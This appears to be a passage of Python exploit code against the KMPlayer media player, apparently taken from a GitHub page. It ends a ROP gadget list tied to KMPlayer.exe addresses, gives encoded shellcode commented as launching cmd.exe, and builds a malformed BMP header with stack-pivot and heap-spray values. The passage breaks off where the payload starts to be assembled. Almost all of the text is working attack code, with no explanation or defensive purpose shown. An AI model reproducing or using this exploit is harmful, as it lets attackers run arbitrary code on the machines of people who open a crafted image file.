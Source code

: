 ```python
	0x90909090, # nop
	0x00744e56, # PUSHAD # RETN [KMPlayer.exe]
	]
	return ''.join(pack('<I', _) for _ in rop_gadgets)

#shellcode for runnig cmd.exe
shellcode = "\x90"*0x100
shellcode += "\xda\xd2\xd9\x74\x24\xf4\x5d\x29\xc9\xba\xfb\xe4\x15"
shellcode += "\xba\xb1\x30\x31\x55\x17\x03\x55\x17\x83\x16\x18\xf7"
shellcode += "\x4f\x14\x09\x7a\xaf\xe4\xca\x1b\x39\x01\xfb\x1b\x5d"
shellcode += "\x42\xac\xab\x15\x06\x41\x47\x7b\xb2\xd2\x25\x54\xb5"
shellcode += "\x53\x83\x82\xf8\x64\xb8\xf7\x9b\xe6\xc3\x2b\x7b\xd6"
shellcode += "\x0b\x3e\x7a\x1f\x71\xb3\x2e\xc8\xfd\x66\xde\x7d\x4b"
shellcode += "\xbb\x55\xcd\x5d\xbb\x8a\x86\x5c\xea\x1d\x9c\x06\x2c"
shellcode += "\x9c\x71\x33\x65\x86\x96\x7e\x3f\x3d\x6c\xf4\xbe\x97"
shellcode += "\xbc\xf5\x6d\xd6\x70\x04\x6f\x1f\xb6\xf7\x1a\x69\xc4"
shellcode += "\x8a\x1c\xae\xb6\x50\xa8\x34\x10\x12\x0a\x90\xa0\xf7"
shellcode += "\xcd\x53\xae\xbc\x9a\x3b\xb3\x43\x4e\x30\xcf\xc8\x71"
shellcode += "\x96\x59\x8a\x55\x32\x01\x48\xf7\x63\xef\x3f\x08\x73"
shellcode += "\x50\x9f\xac\xf8\x7d\xf4\xdc\xa3\xeb\x0b\x52\xde\x5e"
shellcode += "\x0b\x6c\xe0\xce\x64\x5d\x6b\x81\xf3\x62\xbe\xe5\x0c"
shellcode += "\x29\xe2\x4c\x85\xf4\x77\xcd\xc8\x06\xa2\x12\xf5\x84"
shellcode += "\x46\xeb\x02\x94\x23\xee\x4f\x12\xd8\x82\xc0\xf7\xde"
shellcode += "\x31\xe0\xdd\xbd\xd8\x7a\xde"

p = lambda x : pack("<L", x)
up = lambda x : unpack("<L", x)[0]

rop_chain = create_rop_chain()

BITMAPFILEHEADER = OrderedDict()
BITMAPINFOHEADER = OrderedDict()

BITMAPINFOHEADER['biSize'] = '\x28\x1f\x00\x00' # origin is 0x28
BITMAPINFOHEADER['biWidth'] = p(0x1c48)
BITMAPINFOHEADER['biHeight'] = p(0x1c48)
BITMAPINFOHEADER['biPlanes'] = '\x01\x00'
BITMAPINFOHEADER['biBitCount'] = '\x18\x00'
BITMAPINFOHEADER['biCompression'] = '\x00\x0a\x00\x00' # origin is 0x00
BITMAPINFOHEADER['biSizeImage'] = p(3 * (up(BITMAPINFOHEADER['biWidth']) *
up(BITMAPINFOHEADER['biHeight'])))
BITMAPINFOHEADER['biXPelsPerMeter'] = '\x00\x00\x00\x00'
BITMAPINFOHEADER['biYPelsPerMeter'] = '\x00\x00\x00\x00'
BITMAPINFOHEADER['biClrUsed'] = '\x00\x02\x00\x00' # origin is 0x00
BITMAPINFOHEADER['biClrImportant'] = '\x00\x00\x00\x00'

BITMAPFILEHEADER['bfType'] = 'BM'
BITMAPFILEHEADER['bfsize'] = p(up(BITMAPINFOHEADER['biSizeImage']) + 0x36)
BITMAPFILEHEADER['bfReserved1'] = '\x00\x00'
BITMAPFILEHEADER['bfReserved2'] = '\x00\x00'
BITMAPFILEHEADER['bfOffBits'] = '\x36\x00\x00\x00'

head = 'Fandu_'
tail = 'FANDU_'
spray = '\x11'
stack_to_heap = p(0x00523702) # PUSH ECX # POP ESP # POP ESI # POP EBX # RETN
heap_to_heap = p(0x0095ddef) # ADD ESP,19000 # POP EDI # POP ESI # POP EBX # RETN
pivot = p(0x00433712) # POP EDX # POP EDI # POP ESI # POP EBX # RETN
ret = p(0x00984e94) # RETN
offset1 = 0x11111111 - 0x101cb056 - 0x600000 # for calculating size of 0x11 spray
offset2 = 0x197c0d11 - 0x173772e1 - 0x100000 # for skip some data which are mutated

payload = ''
```